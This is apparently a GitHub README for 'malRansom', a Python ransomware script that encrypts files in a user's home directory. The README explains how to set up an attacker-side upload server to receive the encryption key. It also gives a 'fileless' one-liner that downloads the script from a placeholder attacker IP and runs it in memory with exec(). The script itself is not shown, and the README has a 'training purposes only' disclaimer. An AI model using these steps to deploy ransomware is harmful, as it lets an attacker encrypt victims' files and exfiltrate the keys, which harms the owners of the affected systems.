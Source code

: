 # malRansom
Python code that encrypts files in a user's home directory. IMPORTANT: In progress!
# Description
First, I would like to say this is for training purposes only and not to be used in any nefarious way. Definitely, 3rawm05nar.py is not a real 
sophisticated piece of code. The encryption file has only been tested on Linux and Windows 11. Windows takes longer to run the full script and requires that python3 is installed to run.
# Requirements
There are different ways to conjure up an upload server, but recommend installing the module "uploadserver" for python3. It is easy to use and allows you to
upload your key to you attack machine.
# Remember
IMPORTANT: Read the comments at the top of the python script. Update the Url for the uploading of the key and include port too. Just an idea... the key is generated at execution, but could be downloaded and passed as a string to eliminate the liability of the uploadserver. The code would have to be refactored at that point.
# Python Upload Server
pip3 install uploadserver
Your machine - Example: python3 -m uploadserver 44444
# Fileless Approach
python3 -c ("""from urllib.request import urlopen;url = 'http://< YOUR IP >/< DIRECTORY >/3rawm05nar.py';outtie = urlopen(url).read();getit = outtie.decode('utf-8');exec(outtie)""")
# Additional Resources
NetworkChuck

https://www.youtube.com/watch?v=UtMMjXOlRQc&t=609s

HTTP/HTTPS python upload server

https://pypi.org/project/uploadserver/

Python simplehttpserver

https://stackoverflow.com/questions/39788591/python-simplehttpserver-to-receive-files
